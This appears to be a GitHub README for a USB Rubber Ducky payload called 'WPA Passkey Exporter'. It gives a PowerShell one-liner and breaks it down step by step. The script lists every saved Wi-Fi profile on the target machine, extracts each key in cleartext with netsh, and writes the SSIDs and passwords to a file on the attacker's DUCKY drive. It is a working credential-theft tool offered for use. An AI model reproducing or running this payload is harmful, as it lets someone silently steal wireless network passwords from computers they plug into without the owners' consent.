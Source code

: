# WPA Passkey Exporter 
Version 1, TODO is listed in the payload

## Full Powershell:

```Powershell
$m=(Get-Volume -FileSystemLabel 'DUCKY').DriveLetter;$d=netsh wlan show profile;$d=$d | Where-Object{$_ -match "All User Profile"};$d=$d -split ": " | Where-Object{$_ -notmatch "All User Profile"};$p=$d | ForEach-Object -process{netsh wlan show profiles $_ key=clear};$p | Select-String "SSID name","Key Content" >> $m':\'wireless'.txt'
```
#### First, get the drive letter of the ducky and assign it to the varaiable m. 
```Powershell
$m=(Get-Volume -FileSystemLabel 'DUCKY').DriveLetter
```
#### Next, Display all of the SSID's of the connected and previously connected wireless connections and assign it to variable d for Data
```Powershell
$d=netsh wlan show profile
```
#### Then, parse out the unnecessary information just to keep the SSID and only the SSID
```Powershell
$d=$d | Where-Object{$_ -match "All User Profile"};$d=$d -split ": " | Where-Object{$_ -notmatch "All User Profile"}
```
#### Declare a Passwords variable (p) takes each SSID from $d and runs it through the command [netsh wlan show profiles [ssid] key=clear]
```Powershell
$p=$d | ForEach-Object -process{netsh wlan show profiles $_ key=clear}
```
#### Finally, parse out the SSID and Passwords from $p, and write it to a file called Wireless.txt on the DUCKY drive
```Powershell
$p | Select-String "SSID name","Key Content" >> $m':\'wireless'.txt'
```
